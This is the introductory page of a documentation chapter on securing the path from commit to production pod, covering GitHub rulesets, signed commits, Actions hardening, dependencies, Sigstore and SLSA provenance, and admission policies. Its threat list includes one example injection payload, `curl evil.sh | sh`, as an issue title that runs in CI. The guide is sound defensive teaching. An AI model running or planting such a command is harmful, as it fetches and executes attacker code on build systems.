

# Secure delivery

How to prove that what runs in production is exactly the code your team reviewed, built by your pipeline, from dependencies you chose.

## Why go deeper?

The [Security](../security/index.md) chapter explains the ideas: signatures, provenance, SLSA, pinned actions. This chapter makes them practical. Each step of the path from a commit to a running pod is a place where an attacker can add code:

- A stolen laptop key pushes a commit straight to `main`, because the branch has no rules.
- A pull request from a fork changes a workflow, and the workflow prints the deploy token.
- An issue title like `` `curl evil.sh | sh` `` runs as a shell command in CI.
- A dependency update that a bot merged on its own, two hours after a maintainer's account was taken over.
- An image tag `v1.4.0` that someone pushed again, with different content, from their own machine.
- A cluster that runs any image it is given, signed or not.

None of these needs a clever exploit. Each one needs only a missing setting or a missing check. Most of the fixes are free, and most of them are built on a small set of open standards that the industry now shares: **GitHub rulesets**, **OpenSSF Scorecard**, **Sigstore** (cosign, Fulcio, Rekor), **in-toto** attestations, **SLSA** provenance, **OSV**, and admission policies in **Kyverno** or the **Sigstore policy-controller**.

## The big picture

Each arrow carries a claim, and each claim needs a check:

1. **Source.** Only reviewed changes reach `main`, and every commit and tag says who made it. ([Configuring a GitHub repository](github-repositories.md), [Signed commits and tags](signed-commits.md))
2. **Build.** The pipeline itself can't be taken over by a pull request, an action or a cache. ([GitHub Actions security](workflow-security.md))
3. **Dependencies.** Every third-party component is chosen on purpose, updated with care, and watched for advisories. ([Third-party dependencies](dependencies.md))
4. **Artifacts.** The output carries a signature (who built it) and provenance (how, from which commit). ([Signing and attesting artifacts](artifact-signing.md))
5. **Deploy.** The cluster checks all of that before it runs anything. ([A secure pipeline, commit to deploy](secure-pipeline.md))

A claim that nobody checks protects nothing. The last step, verification at deploy time, is what turns the rest into a real control.

## Reading order

Each page builds on the one before it. The commands ran on WSL2 (Ubuntu 24.04, kernel 5.15) with Git 2.56.1, gh 2.106.0, cosign v3.1.6, syft 1.57.2, crane 0.22.1, actionlint 1.7.12, GoReleaser and Flux 2.10.1, against this site's own repository and the `orders` service.

| #   | Page                                                      | You will learn                                                                                |
| --- | --------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| 1   | [Configuring a GitHub repository](github-repositories.md) | Account and org settings, rulesets, CODEOWNERS, secret scanning, private reporting, Scorecard |
| 2   | [Signed commits and tags on GitHub](signed-commits.md)    | What GitHub verifies, merge methods and signatures, signed release tags, gitsign, CI checks   |
| 3   | [GitHub Actions security](workflow-security.md)           | Dangerous triggers, script injection, tokens, OIDC, environments, caches, zizmor              |
| 4   | [Third-party dependencies](dependencies.md)               | Admitting, pinning, updating and monitoring dependencies; Dependabot, Renovate, OSV           |
| 5   | [Signing and attesting artifacts](artifact-signing.md)    | Sigstore inside out, cosign keyless, in-toto attestations, SLSA provenance, `gh attestation`  |
| 6   | [A secure pipeline, commit to deploy](secure-pipeline.md) | The full workflow files for `ordersd`, deploy-time verification with Kyverno and Flux         |

## How each page works

The same shape as the [Fundamentals](../fundamentals/index.md): **Why care?**, **The idea**, **Under the hood**, **Try it**, **Traps** and **Check yourself**. Pages link back to the earlier chapters for the basics: [Git signing](../git/config-hooks-signing.md), [CI pipelines](../delivery/ci-pipelines.md), [reproducible builds](../delivery/reproducible-builds.md), [supply chain security](../security/supply-chain.md) and [GitOps](../delivery/gitops.md).
